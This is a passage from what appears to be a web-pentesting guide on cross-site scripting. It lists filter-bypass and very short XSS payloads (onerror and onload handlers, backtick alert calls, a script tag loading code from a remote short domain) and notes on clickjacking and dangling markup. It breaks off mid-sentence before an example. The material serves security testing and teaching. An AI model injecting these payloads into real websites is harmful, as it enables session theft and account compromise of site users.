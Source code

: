 ```javascript

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```

### Length bypass (small XSSs)

{% hint style="info" %}
**More tiny XSS for different environments** payload [**can be found here**](https://github.com/terjanq/Tiny-XSS-Payloads) and [**here**](https://tinyxss.terjanq.me).
{% endhint %}

```html
<!-- Taken from the blog of Jorge Lajara -->
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr\
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).\
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).

### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](../clickjacking.md#xss-clickjacking) (if the page is vulnerable).

### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](../dangling-markup-html-scriptless-injection/)because you could **exploit** the vulnerability **without** executing **JS** code.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

If you are in **inside a HTML tag**, the first thing you could try is to **escape** from the tag and use some of the techniques mentioned in the [previous section](./#injecting-inside-raw-html) to execute JS code.\
If you **cannot escape from the tag**, you could create new attributes inside the tag to try to execute JS code, for example using some payload like (_note that in this example double quotes are use to escape from the attribute, you won't need them if your input is reflected directly inside the tag_):
